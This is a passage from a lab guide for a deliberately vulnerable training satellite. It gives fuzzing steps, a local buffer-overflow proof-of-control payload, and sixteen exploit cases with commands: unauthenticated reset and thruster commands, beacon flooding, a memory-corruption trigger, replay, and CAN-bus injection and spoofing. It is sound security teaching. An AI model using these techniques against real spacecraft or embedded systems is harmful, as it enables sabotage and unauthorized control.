The corpus should include clean packets, truncated headers, oversized declared lengths, unusual APIDs, and handler-shaped payloads. Those seeds tie the fuzzing run back to the protocol analysis from Phase 2.

### Step 2: Compile the Fuzzing Targets

Build the parser and builder targets with libFuzzer, AddressSanitizer, and UndefinedBehaviorSanitizer:

```shell
cd resources/fuzzing

$CC -g -O1 -fsanitize=fuzzer,address,undefined \
    -I./include \
    src/spp/spp.c \
    fuzzing/fuzz_spp_unpack.c \
    -o fuzzing/output/fuzz_spp_unpack

$CC -g -O1 -fsanitize=fuzzer,address,undefined \
    -I./include \
    src/spp/spp.c \
    fuzzing/fuzz_spp_pack.c \
    -o fuzzing/output/fuzz_spp_pack
```


If `$CC` is not set, point it to a Clang build that supports libFuzzer. On macOS with Homebrew LLVM, this is often `/opt/homebrew/opt/llvm/bin/clang`; on Linux, it may be a versioned Clang under `/usr/lib/llvm-*`.

### Step 3: Use a Protocol Dictionary

The dictionary gives the fuzzer byte patterns that are meaningful for SPP: APIDs, header-like bytes, sequence flags, and length-field edge cases.

```shell
cat resources/fuzzing/fuzzing/spp.dict
```


A dictionary is not a substitute for a corpus. The corpus provides whole examples; the dictionary gives mutation hints. Together, they help the fuzzer reach parser states that random input would reach more slowly.

### Step 4: Fuzz Packet Construction

Run the builder target:

```shell
./resources/fuzzing/fuzzing/output/fuzz_spp_pack \
    -runs=5000 \
    -dict=resources/fuzzing/fuzzing/spp.dict \
    resources/fuzzing/fuzzing/corpus
```


The builder target asks whether attacker-controlled payload sizes can reach packet construction without proper bounds checks. A builder-side crash usually points to unsafe copy behavior or a mismatch between declared capacity and supplied data.

### Step 5: Fuzz Packet Parsing

Run the unpacker target:

```shell
./resources/fuzzing/fuzzing/output/fuzz_spp_unpack \
    -runs=5000 \
    -dict=resources/fuzzing/fuzzing/spp.dict \
    resources/fuzzing/fuzzing/corpus
```


In the demonstrated run, AddressSanitizer reported a heap-buffer-overflow in `spp_unpack_packet()` while copying `header.length + 1` bytes from a shorter fuzzer input. The important evidence is:

| Evidence | Meaning |
| --- | --- |
| `AddressSanitizer: heap-buffer-overflow` | The parser read past the allocated fuzzer input. |
| `READ of size 68` | The declared SPP length caused a copy larger than the available input. |
| `spp_unpack_packet spp.c:108` | The fault maps to the SPP unpacking copy. |
| `fuzz_spp_unpack.c:16` | The harness reached the parser through generated input. |
| `crash-...` artifact | The exact input was saved for reproduction and minimization. |

This finding supports the truncated-packet parser bug discussed later in Exploit Case 9. It does not automatically prove code execution; it proves a concrete memory-safety failure in the host-side parser harness.

### Step 6: Create an Offset Pattern

After a crash exists, use a deliberately vulnerable local program to practice crash-to-control-flow triage. Generate a cyclic pattern:

```shell
python3 scripts/fuzz_offset.py
```


The script writes `resources/fuzzing/fuzzing/pattern.bin`. The pattern is not random. It is designed so a value recovered from `pc`, `lr`, or a saved return address can be mapped back to an exact offset.

### Step 7: Locate the Demonstration Function

Find the address of the local demonstration function:

```shell
nm resources/fuzzing/fuzzing/output/vulnerable_app | grep hacker_mode
```

Example output:

```text
00000001000004f8 T _hacker_mode
```

This address is system-specific. It can change with compiler, architecture, build flags, ASLR, PIE settings, and source changes. Do not copy the example address blindly.

### Step 8: Recover the Offset in a Debugger

Run the vulnerable program under a debugger with the cyclic pattern as standard input:

```shell
lldb resources/fuzzing/fuzzing/output/vulnerable_app
settings set target.input-path resources/fuzzing/fuzzing/pattern.bin
run
register read pc lr fp
```


In the demonstrated run, LLDB showed control data containing pattern bytes. The next step is to convert the relevant little-endian value back into an offset:

```shell
pwn cyclic -l 0x61666361
```

Example result:

```text
218
```

The exact register and value depend on architecture and crash behavior. On ARM64, inspect `pc`, `lr`, and `fp`; on x86_64, inspect `rip` and the stack near `rsp`. Endianness matters when choosing the bytes to pass to `pwn cyclic -l`.

### Step 9: Build the Local Proof-of-Control Payload

Use the recovered offset and the local demonstration-function address to build an input file:

```shell
python3 scripts/fuzz_exploit.py 218 0x00000001000004f8
```


The helper writes `resources/fuzzing/fuzzing/exploit.bin` as:

```text
"A" * offset | packed target address
```

The current helper packs the address as little-endian AArch64 with `p64()`. If the reader is on a different architecture or wants a different packing width, they must modify the helper accordingly.

### Step 10: Reproduce the Local Control-Flow Result

Run the vulnerable program with the generated exploit input:

```shell
lldb resources/fuzzing/fuzzing/output/vulnerable_app
settings set target.input-path resources/fuzzing/fuzzing/exploit.bin
run
```


The demonstration succeeds when execution reaches the local demonstration function and prints the expected message. Record:

- Offset value.
- Target function address.
- Architecture and endianness.
- Compiler and sanitizer flags.
- Whether ASLR/PIE was enabled.
- Exact payload path and hash.
- Debugger evidence that control flow reached the target.

This exercise is useful because it teaches how a crash becomes an exploit-development hypothesis. It still must be kept separate from embedded-target claims. A host binary proof-of-control does not mean the same offset, address, or control-flow primitive exists on the RP2040 firmware.

SpaceCAN bus exercises live in **Part 6: SpaceCAN Bus Offline Exercises** of the notebook. They are intentionally simulator/offline oriented because they teach CAN-ID decoding, replay reasoning, and packet reassembly without requiring the physical Pwnsat board.

## Exploit Case 1: Liveness and Command Reachability

**Target:** APID `0x01`, PING.

**Purpose:** Confirm that the command path is reachable before attempting destructive or malformed cases.

**Mechanism:**

The handler sends a ping ACK telemetry packet. This is the safest first command because it should not change mission state.

**USB Reproduction:**

1. Connect the board and identify the `USBRadioLink` CDC device.
2. Build the packet without transmitting:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping --dry-run
   ```

3. Confirm the decoded packet shows `Type: 1 (TC)`, `APID: 0x001`, and a declared data-field size of one byte when no payload is supplied.
4. Send the framed USB packet:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping
   ```

5. Watch the debug serial output for the parsed TC line and the transmitted TM ACK.
6. Save the raw SPP hex, framed USB hex, and returned bytes in the lab notes.

**Expected Observations:**

- Debug log shows parsed TC APID `0x001`.
- USB/downlink emits ACK telemetry.
- Board remains stable.

**SPARTA Mapping:**

- `IA-0008.01 Rogue Ground Station`, when delivered over RF.
- `EX-0001.01 Command Packets`, when unauthorized.

**Documentation Notes:**

Record the exact raw SPP bytes, transport wrapper, response packet, and timing.

## Exploit Case 2: Firmware Version Disclosure

**Target:** APID `0x03`, SEND_FW.

**Purpose:** Demonstrate low-risk information disclosure and target fingerprinting.

**Mechanism:**

The handler returns firmware version bytes:

```text
SPACECRAFT_ID | PATCH | MINOR | MAJOR | NUL
```

**USB Reproduction:**

1. Establish a known-good baseline with the PING case first.
2. Build the firmware-version request:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command fw --dry-run
   ```

3. Verify the packet targets `APID: 0x003`.
4. Send the request:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command fw
   ```

5. Decode the returned telemetry as SPP. The response payload should contain spacecraft ID followed by patch, minor, major, and a NUL terminator.
6. Compare the observed version with [firmware/mission.h](firmware/mission.h), where the current source defines `FIRMWARE_PATCH`, `FIRMWARE_MINOR`, and `FIRMWARE_MAJOR`.

**Expected Observations:**

- Response APID is `0x03`.
- Payload identifies firmware version `0.0.1` in the current source.

**Impact:**

Version disclosure helps align exploit assumptions with the firmware build and map file.

**SPARTA Mapping:**

- `EXF-0003.02 Downlink Exfiltration`, if captured over downlink.
- `REC-0001.02 Firmware`, as supporting reconnaissance.

## Exploit Case 3: Unauthenticated Reset DoS

**Target:** APID `0x02`, RESETC.

**Purpose:** Prove that a single unauthenticated command can interrupt mission operation.

**Mechanism:**

The handler blinks LEDs and calls:

```text
watchdog_reboot(0, 0, 0)
```

**USB Reproduction:**

1. Open the debug serial console and confirm periodic telemetry is visible.
2. Build the reset command:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command reset --dry-run
   ```

3. Verify the packet targets `APID: 0x002`.
4. Send the command once:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command reset --read-seconds 0.2
   ```

5. Observe LED activity, USB disconnect/reconnect behavior, and the gap before telemetry resumes.
6. Repeat only after the board has fully re-enumerated. Record whether the USB device name changes after reboot.



**Expected Observations:**

- LED sequence before reset.
- USB disconnect/reconnect or logging interruption.
- Telemetry gap while the board reboots.



**Impact:**

Repeated reset commands can prevent stable command processing and telemetry collection.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Safety Note:**

Use this sparingly during testing. It can interrupt logging and make other experiments harder to debug.

## Exploit Case 4: Thruster State Manipulation

**Target:** APID `0x04`, SET_THRUSTER.

**Purpose:** Demonstrate unauthorized mission-state modification.

**Payload Format:**

```text
byte 0: thruster_id
byte 1: thruster_power
```

Valid `thruster_id` values in the current handler:

| ID | Effect |
| --- | --- |
| `0x00` | Set simulated thruster 0 power. |
| `0x01` | Set simulated thruster 1 power. |

**USB Reproduction:**

1. Capture one baseline telemetry packet and record the current simulated thruster values.
2. Build a command for thruster `0` with power `80`:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command thruster --thruster-id 0 --power 80 --dry-run
   ```

3. Confirm the decoded packet targets `APID: 0x004` and that the data bytes are `00 50`.
4. Send the command:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command thruster --thruster-id 0 --power 80
   ```

5. Wait for the next normal telemetry packet and compare the thruster field against the baseline.
6. Repeat with `--thruster-id 1 --power 25` and document both before/after values.
7. As a negative test, send `--thruster-id 2 --power 80` and confirm the debug log reports `Thruster not found`.



**Expected Observations:**

- No authentication challenge.
- Subsequent telemetry reflects the changed thruster value.
- Invalid IDs produce a debug error but no structured rejection telemetry.



**Impact:**

The command changes operator-visible state. In a real spacecraft, comparable actuator commands would require strict mode checks and command authorization.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EX-0014.02 Bus Traffic Spoofing`, when used to manipulate trusted downstream state.

## Exploit Case 5: Beacon Flood DoS

**Target:** APID `0x05`, SET_BEACON_RATE.

**Purpose:** Show how a valid configuration command can degrade normal mission behavior.

**Payload Format:**

```text
byte 0: beacon interval in seconds
byte 1: padding byte for the current firmware unpacker
```

The handler reads `data[0]`, rejects values above `10`, and accepts `0`. The second byte is not part of the intended command semantics; it is included in the lab payload because the current unpacker does not copy one-byte payloads when the SPP length field is `0`.

**Mechanism:**

When the interval is `0`, the telemetry worker condition becomes true almost continuously:

```text
t_radio_beacon.interval != 15000 &&
millis() - previous > interval
```

**USB Reproduction:**

1. Record the normal beacon cadence for at least 30 seconds.
2. Build a safe high-rate beacon command. The helper adds a padding byte after the interval:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command beacon --seconds 1 --dry-run
   ```

3. Send the one-second beacon command and observe the increased cadence:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command beacon --seconds 1
   ```

4. Build the edge case that sets the interval to zero:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command beacon --seconds 0 --dry-run
   ```

5. Send the zero-second interval only during a controlled lab window:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command beacon --seconds 0 --read-seconds 0.2
   ```

6. Observe USB/downlink traffic volume and normal telemetry readability.
7. Restore a less aggressive interval with `--seconds 5`, or reset the board if the loop becomes difficult to observe.



**Expected Observations:**

- Repeated beacon telemetry.
- Increased USB/downlink traffic.
- Normal telemetry cadence becomes harder to observe.



**Impact:**

This is a logic-level denial of service against the mission loop.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `DE-0002.03 Inhibit Spacecraft Functionality`

**Mitigation Hook for Later Chapter:**

Require a minimum interval, rate-limit configuration changes, and keep beacon scheduling independent from command handling.

## Exploit Case 6: Flash Transfer Exfiltration and Blocking

**Target:** APID `0x07`, FLASH.

**Purpose:** Demonstrate command-triggered data disclosure and blocking transmission.

**Mechanism:**

The handler calls `telemetrySPPTransmitFlash()`, which:

- Sets `block_tx = true`.
- Splits a static `image_data` blob into chunks.
- Sends APID `0x07` telemetry chunks.
- Uses blocking transmit and `delay(100)` between chunks.
- Restores `block_tx = false` after transfer.

**USB Reproduction:**

1. Confirm normal telemetry is flowing.
2. Build the flash-transfer command:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command flash --dry-run
   ```

3. Verify the decoded packet targets `APID: 0x007`.
4. Send the command with a longer read window:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command flash --read-seconds 5
   ```

5. Record the sequence of APID `0x007` telemetry chunks.
6. Note whether normal telemetry pauses while `block_tx` is true.
7. Repeat once and compare chunk count, timing, and payload lengths.



**Expected Observations:**

- Multiple APID `0x07` telemetry packets.
- Packet sequence flags move through start, continuation, and end.
- Normal telemetry is suppressed during transfer.

**Impact:**

The command provides a clean example of downlink exfiltration and temporary service degradation.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `EXF-0003.02 Downlink Exfiltration`
- `DE-0002.03 Inhibit Spacecraft Functionality`

## Exploit Case 7: Broadcast Frequency Control

**Target:** APID `0x06`, BROADCAST_MSG.

**Purpose:** Demonstrate command-controlled RF behavior and introduce the handler's memory-corruption bug.

**Expected Payload Format:**

```text
byte 0: frequency_hi
byte 1: frequency_lo
byte 2..n: message bytes
```

The handler extracts a packet-controlled frequency and passes it to:

```text
downlinkRadioTransmitBroadcast(frequency, packet, total_len)
```

**USB Reproduction:**

1. Choose a lab-safe frequency value for the firmware's broadcast routine. In this exercise the value is a packet-controlled integer, not a recommendation to transmit outside the lab plan.
2. Build a well-formed broadcast command:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --frequency 0x01B8 --message HELLO --dry-run
   ```

3. Confirm the decoded packet targets `APID: 0x006` and that the first two payload bytes are the big-endian frequency field.
4. Send the command:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --frequency 0x01B8 --message HELLO --read-seconds 2
   ```

5. Observe the debug log for the parsed command and generated broadcast telemetry packet.
6. Confirm the board returns to its default downlink behavior after the broadcast routine.
7. Record the exact frequency bytes, message bytes, and any RF-side observation only if the RF setup is authorized and isolated.



**Expected Observations for Well-Formed Payloads:**

- The downlink radio attempts to retune to the requested frequency.
- A broadcast telemetry packet is transmitted.
- The radio returns to the default downlink frequency afterward.



**Impact:**

This demonstrates why command handlers should not allow arbitrary RF reconfiguration without authorization and range policy.

**SPARTA Mapping:**

- `EX-0001.01 Command Packets`
- `IA-0008.01 Rogue Ground Station`, when delivered over RF.
- `IMP-0002 Disruption`, if the receiver workflow is disrupted.

## Exploit Case 8: Broadcast APID Underflow

**Target:** APID `0x06`, malformed BROADCAST_MSG.

**Purpose:** Trigger the strongest memory-corruption candidate identified in the firmware review.

**Vulnerable Logic:**

```text
payload_total = space_packet->header.length + 1
msg_len = payload_total - 2
memcpy(buffer_msg, space_packet->data + 2, msg_len)
```

The handler assumes the data field contains at least two bytes for the frequency. If `payload_total < 2`, `msg_len` underflows because it is an unsigned `size_t`.

**Minimal Trigger Idea:**

Use APID `0x06` with a declared data field smaller than the two-byte frequency requirement.

The base harness example:

```python
tc_header = SpHeader.tc(apid=6, seq_count=5, data_len=0)
telecommand = tc_header.pack()
```

This produces a TC packet targeting APID `0x06` with the smallest possible data-field size according to the `spacepackets` builder semantics.

The notebook exercise does not transmit this payload. It decodes the packet fields and asks the reader to reason about why the handler's `payload_total - 2` calculation is unsafe.

**USB Reproduction:**

1. Reproduce the well-formed broadcast case first so the command path is known to work.
2. Build the malformed minimum-length APID `0x06` packet without sending it:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --payload-hex 00 --dry-run
   ```

3. Confirm the decoded packet targets `APID: 0x006` and has only one payload byte available to the handler.
4. Attach debug serial logging. If possible, also attach SWD or another crash-triage method before sending.
5. Send the malformed packet once:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command broadcast --payload-hex 00 --read-seconds 0.2
   ```

6. Observe whether the board logs an error, resets, crashes, hangs, or continues normally.
7. If the board remains stable, test nearby lengths: `--payload-hex 0000`, then `--payload-hex 000048`. The two-byte case should satisfy the frequency field and the three-byte case adds one message byte.
8. Do not claim code execution from this test alone. Record it as memory-corruption reachability unless debugger evidence shows control of execution.



**Expected Observations:**

- Crash, reset, corrupted behavior, or abnormal logs.
- If a debugger is attached, inspect fault address and stack state.
- If no crash occurs, compare parser behavior and builder `data_len` semantics carefully.

> **Note:** In the current lab build, this trigger can affect the USB command-handling core. After the underflow, the board may stop accepting new USB commands until it is reset or re-enumerated.

**Impact:**

This is a memory-corruption primitive reachable from the command path. It should be described as a candidate for RF-triggered code execution until a debugger trace proves control of execution.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`
- `EX-0001.01 Command Packets`
- `IA-0008.01 Rogue Ground Station`, when delivered over RF.

## Exploit Case 9: SPP Truncated Packet Parser Bug

**Target:** `spp_unpack_packet()`.

**Purpose:** Validate parser behavior when the SPP primary header declares more data than the USB frame actually carries.

**Vulnerable Logic:**

The parser verifies that the input contains at least the six-byte primary header and that the declared SPP length is not larger than the maximum payload chunk:

```text
buffer_len >= 6
header.length <= SPP_MAX_PAYLOAD_CHUNK
```

It does not verify that the received buffer contains the full declared data field:

```text
buffer_len >= 6 + header.length + 1
```

Then it copies `header.length + 1` bytes from the received buffer into the packet data field.

**USB Reproduction:**

1. Reproduce the PING case first so the USB command path is known-good.
2. Send a malformed USB frame whose SPP header declares a larger data field than the frame contains:

   ```shell
   python3 - <<'PY'
   import serial, time
   port = "/dev/cu.usbmodemfsat3"
   raw_spp = bytes.fromhex("1001c0010010")
   framed = b"\xAA\x55" + len(raw_spp).to_bytes(2, "big") + raw_spp
   print("raw_spp=", raw_spp.hex())
   print("framed=", framed.hex())
   with serial.Serial(port, 921600, timeout=0.2) as ser:
       time.sleep(0.2)
       ser.write(framed)
       ser.flush()
   PY
   ```

3. Decode the header: APID `0x001`, TC type, unsegmented sequence flags, and length field `0x0010`.
4. Observe the debug serial console for parser errors, abnormal ACK behavior, reset, or command-path instability.
5. Repeat with smaller declared lengths, such as `0x0002`, to distinguish parser behavior from handler behavior.
6. Save every malformed raw SPP string as a future fuzzing seed.

**Expected Observations:**

- The parser may accept a truncated packet.
- Handler behavior may depend on bytes read beyond the supplied USB frame.
- Results can differ between USB and RF because surrounding memory and transport buffering differ.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`

**Debugging Notes:**

Validate this first over USB with serial logs. For RF, the ASCII-hex decoder and radio packet length can change the surrounding memory layout, so behavior may not be identical.

## Exploit Case 10: Replay

**Target:** Any accepted telecommand.

**Purpose:** Demonstrate missing anti-replay enforcement.

**Mechanism:**

The SPP header includes a sequence count, but the firmware does not enforce monotonicity, freshness, timestamps, nonces, or command expiration before dispatch.

**Good Replay Candidates:**

| APID | Why |
| --- | --- |
| `0x01` | Safe liveness replay. |
| `0x02` | Repeated DoS. |
| `0x05` | Repeated beacon-rate abuse. |
| `0x07` | Repeated flash-transfer exfiltration. |

**USB Reproduction:**

1. Build and send a PING command with a fixed sequence count:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping --seq 77
   ```

2. Send the exact same command again with the same sequence count:

   ```shell
   python3 scripts/usb_tc_send.py --port /dev/cu.usbmodemfsat3 --command ping --seq 77
   ```

3. Confirm both commands are accepted and both generate ACK telemetry.
4. Repeat with a state-changing but reversible command, such as beacon interval `5` seconds using `--seq 88`.
5. Document that the sequence count is parsed but not enforced as freshness.
6. Avoid using RESET as the first replay test because USB re-enumeration makes timing harder to observe.



**SPARTA Mapping:**

- `REC-0005.01 Uplink Intercept Eavesdropping`, when capturing the original command.
- `IA-0008.01 Rogue Ground Station`, when replayed over RF.
- `EX-0001.01 Command Packets`, when it executes.

## Exploit Case 11: Fuzzing-Guided Crash Triage

**Target:** SPP library harnesses and the local vulnerable application.

**Purpose:** Turn fuzzing output into a reproducible exploitation finding.

**Mechanism:**

Run the pack and unpack fuzzers with a seed corpus, SPP dictionary, and sanitizers. When a crash appears, preserve the crashing input, decode the first six bytes as an SPP header when possible, and identify whether the crash came from the parser, the builder, or the intentionally vulnerable wrapper.

For builder-side crashes, the expected root cause is an oversized `Size` reaching:

```text
memcpy(space_packet->data, data, data_len)
```

without a prior `data_len <= SPP_MAX_PAYLOAD_CHUNK` check.

For unpacker-side crashes, the expected root cause is a declared packet length that is trusted more than the captured input length:

```text
memcpy(space_packet->data, buffer + 6, header.length + 1)
```

without requiring:

```text
buffer_len >= 6 + header.length + 1
```

**Expected Observations:**

- libFuzzer reports the sanitizer finding and saves a crash artifact.
- AddressSanitizer identifies the faulting function and access type.
- Re-running the harness with the same artifact reproduces the crash.
- The artifact can be reduced, decoded, and linked to an SPP field or payload length.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`, for malformed packet inputs that stress parser validation.
- `EX-0001.01 Command Packets`, if the crash input is a telecommand that reaches dispatch.
- `DE-0002.03 Inhibit Spacecraft Functionality`, if repeated delivery prevents normal operation.
- `IMP-0003 Denial`, if the result is complete loss of access or operation in the lab model.

**Documentation Notes:**

Record the crash artifact path, SHA-256 hash, sanitizer output, decoded SPP fields, affected source line, reproduction command, and whether the input is reachable over USB, RF, or only the local harness.

## Exploit Case 12: SpaceCAN Passive Bus Capture

**Target:** SpaceCAN virtual bus traffic.

**Purpose:** Build the internal-bus baseline before injecting frames.

**Mechanism:**

Run the controller and simulated nodes, then capture frames:

```shell
./buildDir/examples/scsniffer -r baseline.replay
./buildDir/examples/scsniffer -o baseline.pcap
```

The sniffer records CAN ID, DLC, data bytes, and timing. A useful baseline should include heartbeat-like frames, SYNC-like frames, and reply telemetry from simulated nodes.

**Expected Observations:**

- Heartbeat or state frames appear at a steady cadence.
- SYNC frames appear at their configured interval.
- Reply frames use the `0x300 + node_id` family.
- Node IDs can be inferred from the lower seven bits of request/reply IDs.



**Impact:**

Passive capture is enough to reconstruct node roles, telemetry cadence, and replay candidates. In a real internal-bus assessment, this becomes the bridge from physical access to protocol-level intrusion.

**SPARTA Mapping:**

- `REC-0005.01 Uplink Intercept Eavesdropping`, by analogy for communications capture.
- `EXF-0003.02 Downlink Exfiltration`, when captured telemetry leaves the test environment.

**Documentation Notes:**

Record the capture command, replay filename, observed CAN IDs, inferred node IDs, and timing intervals.

## Exploit Case 13: SpaceCAN Request Injection

**Target:** Request family `0x280 + node_id`.

**Purpose:** Demonstrate that a process connected to the local bus can impersonate controller-originated request traffic.

**Mechanism:**

Inject a request-like frame to a responder node:

```shell
./buildDir/examples/scinjection 0x284 01 FF
```


The frame targets node `0x04` with two application bytes. The payload meaning depends on the receiving node's callback and application schema. The exploitation point is the authority boundary: if a responder accepts the frame because the CAN ID is in the request family, the bus has no cryptographic source authentication.

**Expected Observations:**

- The receiver callback logs the injected CAN ID, DLC, and data bytes.
- Monitoring tools show a new request-like frame.
- If the target node implements command semantics, state may change.



**Impact:**

This is command injection at the internal bus layer. Even when the external RF protocol is hardened, exposed debug access, compromised software on the OBC, or a rogue bus participant can still manipulate subsystems if SpaceCAN traffic is trusted solely by CAN ID.

**SPARTA Mapping:**

- `EX-0014.02 Bus Traffic Spoofing`
- `EX-0001.01 Command Packets`, when the request causes command execution.

## Exploit Case 14: SpaceCAN Reply Spoofing

**Target:** Reply family `0x300 + node_id`.

**Purpose:** Demonstrate telemetry trust abuse by forging responder-originated data.

**Mechanism:**

Inject a reply-like frame:

```shell
./buildDir/examples/scinjection 0x304 01 FF
```

This frame claims to be a reply from node `0x04`. The example payload uses `01` as a DLC followed by arbitrary values. The exact field meaning is application-specific; the attack pattern is not.



**Expected Observations:**

- The monitoring path records a reply from the forged node ID.
- Any display that trusts reply CAN IDs may attribute the payload to node `0x04`.
- If replayed repeatedly, forged telemetry can obscure real state.


**Impact:**

Forged replies can mislead operators, mask subsystem failure, or poison higher-level decision logic. In a real spacecraft, this class of weakness is especially dangerous when autonomous fault management trusts housekeeping values without provenance.

**SPARTA Mapping:**

- `EX-0014.02 Bus Traffic Spoofing`
- `DE-0002.03 Inhibit Spacecraft Functionality`, if false telemetry hides a fault or drives bad operator action.

## Exploit Case 15: SpaceCAN Replay

**Target:** Captured `baseline.replay` traffic.

**Purpose:** Test whether bus state transitions depend on freshness or merely on frame content.

**Mechanism:**

Capture a replay file with `scsniffer -r`, then replay it:

```shell
./buildDir/examples/screplay baseline.replay
```



The replay tool preserves inter-frame timing from the captured records. That makes it useful for reproducing operational cadence, not just byte values.

**Expected Observations:**

- Previously captured frames are resent with original timing gaps.
- Nodes or monitors react as if the traffic occurred again.
- No sequence counter, nonce, timestamp authentication, or freshness window blocks the replay in the local library.


**Impact:**

Replay demonstrates why timing alone is not a security control. A bus that accepts old frames can repeat stale state, stale telemetry, or stale commands.

**SPARTA Mapping:**

- `REC-0005.01 Uplink Intercept Eavesdropping`, for the original capture.
- `EX-0014.02 Bus Traffic Spoofing`, for replay on the bus.

## Exploit Case 16: SpaceCAN Fragmentation Abuse

**Target:** `sc_reassembly_packets()`.

**Purpose:** Stress packet reassembly assumptions around sequence numbers, total-frame counts, duplicate fragments, and boundary sizes.

**Mechanism:**

The packet fragmentation format reserves two data bytes:

```text
byte 0: total frames minus 1
byte 1: current sequence number
byte 2..7: up to six bytes of payload
```

Useful malformed cases include:

| Case | Example | Question |
| --- | --- | --- |
| Missing final fragment | Send sequence `0`, never send `1`. | Does the context time out cleanly? |
| Duplicate sequence | Send sequence `0` twice with different bytes. | Does first or last fragment win? |
| Out-of-range sequence | Total says two frames, sequence says five. | Is the fragment rejected? |
| Mixed CAN IDs | Start on `0x301`, continue on `0x302`. | Is packet identity bound tightly enough? |
| Boundary packet | 256-byte payload across 43 possible slots. | Are buffer limits enforced during reassembly? |

**Expected Observations:**

- Incomplete packets should not be delivered upward.
- Out-of-range sequence numbers should be rejected.
- Duplicate or mixed-identity fragments should be documented precisely because they define replay and injection behavior.

**Impact:**

Fragmentation bugs are often quiet. They may not crash immediately; they may reassemble attacker-selected bytes into a command or telemetry packet that appears valid after the fact.

**SPARTA Mapping:**

- `EX-0013.02 Erroneous Input`
- `EX-0014.02 Bus Traffic Spoofing`


## Exploitation Order

Use this sequence when writing the final exploitation chapters:

1. PING reachability.
2. Firmware version disclosure.
3. Reset DoS.
4. Thruster state manipulation.
5. Beacon flood DoS.
6. Flash transfer exfiltration.
7. Broadcast frequency control.
8. Broadcast APID underflow.
9. SPP truncated packet parser bug.
10. Replay over USB, then RF only when authorized.
11. Fuzzing-guided crash triage.
12. SpaceCAN passive bus capture.
13. SpaceCAN request injection.
14. SpaceCAN reply spoofing.
15. SpaceCAN replay.
16. SpaceCAN fragmentation abuse.

This order starts with safe observability, moves into denial of service and state changes, then memory corruption, replay, offline crash triage, and finally SpaceCAN bus abuse.

## Carry-Forward Notes

The next phase should focus on exploit reliability and reversing:

- Use the ELF and map file to identify function addresses.
- Attach SWD or serial diagnostics for crash triage.
- Compare USB and RF stack layouts.
- Determine whether APID `0x06` can control saved registers or fault state.
- Keep the claim as "memory corruption candidate" until control of execution is demonstrated.

The exploitation phase is not complete when a packet crashes the board. It is complete when the behavior is reproducible, explained, mapped to code, mapped to SPARTA, and paired with a mitigation.


# Phase 5: Exploit Reliability and Firmware Reversing

Exploitation is not finished when the board crashes. A crash proves that something went wrong; reliability work explains why it went wrong, whether the behavior can be controlled, and how much impact should be claimed.

This phase bridges command-level exploitation and firmware reversing. It teaches how to move from "the APID made the board reset" to a defensible technical finding backed by symbols, memory layout, fault behavior, and repeatable test cases.

## Claim Levels

Use careful language when documenting exploit results.

| Claim | Evidence Required |
| --- | --- |
| Command accepted | Debug logs, telemetry response, or state change proves the command reached the handler. |
| Denial of service | Reproducible reset, lockup, telemetry loss, or command-path starvation. |
| Memory corruption | Crash/fault, corrupted state, invalid copy length, or debugger evidence tied to unsafe memory access. |
| Control-flow influence | Controlled fault address, corrupted saved register, or repeatable redirection of execution. |
| Code execution | Controlled execution of chosen code path or payload in the target context. |

For Pwnsat, the source code proves a memory-corruption candidate in APID `0x06`. A full RF-triggered code execution claim should be made only after debugger evidence shows control of execution.

## Reversing Inputs

The firmware directory includes source and compiled artifacts:

| Artifact | Use |
| --- | --- |
| `firmware/*.cpp`, `firmware/*.h`, `firmware.ino` | Source-level analysis and vulnerability discovery. |
| `firmware/build/rp2040.rp2040.generic/firmware.ino.elf` | Symbol-aware reversing, disassembly, function addresses. |
| `firmware/build/rp2040.rp2040.generic/firmware.ino.map` | Linker map, memory regions, symbol placement. |
| `firmware/build/rp2040.rp2040.generic/firmware.ino.bin` | Raw firmware image for binary analysis. |
| `firmware/build/rp2040.rp2040.generic/firmware.ino.uf2` | RP2040 flashing artifact. |

The ELF and map file are especially useful because they turn opaque crashes into named functions and address ranges.

## Firmware Memory Model

The RP2040 is a dual-core Cortex-M0+ microcontroller. The exact memory map depends on the board support package and linker configuration, but reversing should track these regions:

| Region | Relevance |
| --- | --- |
| Flash/XIP code | Most compiled functions and constants. |
| SRAM | Stack, globals, heap, runtime state. |
| Peripheral registers | Watchdog, USB, SPI, I2C, GPIO, radio control. |
| Vector table | Exception and interrupt handlers. |

For exploit work, the most important question is where the vulnerable stack frame lives and what sits next to the corrupted buffer.

## Debugging Strategy

Start with observability before trying to control anything.

1. Reproduce the behavior over USB.
2. Capture serial logs.
3. Attach SWD if available.
4. Note whether the board resets, locks, or continues.
5. Compare behavior across multiple payload lengths.
6. Correlate the fault with the source line or function.
7. Only then try RF delivery.

